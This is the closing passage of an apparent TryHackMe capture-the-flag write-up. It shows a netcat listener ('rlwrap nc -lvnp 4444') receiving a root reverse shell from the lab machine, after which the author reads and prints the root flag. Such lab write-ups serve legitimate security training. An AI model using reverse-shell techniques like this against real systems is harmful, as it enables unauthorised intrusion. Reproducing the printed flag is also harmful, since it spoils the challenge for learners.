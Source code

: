 ~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CMesS]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.82] from (UNKNOWN) [10.10.30.110] 39724
/bin/sh: 0: can't access tty; job control turned off
#id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

Now head to `/root` and read the root flag:

~~~
# cd /root
# ls
root.txt
# cat root.txt
thm{9f85b7fdeb2cf96985bf5761a93546a2}
~~~

Root flag: `thm{9f85b7fdeb2cf96985bf5761a93546a2}`

# D0N3! ; )

Thanks to the creator(s).

Hope you had fun and learned something.

Have a g00d one! : )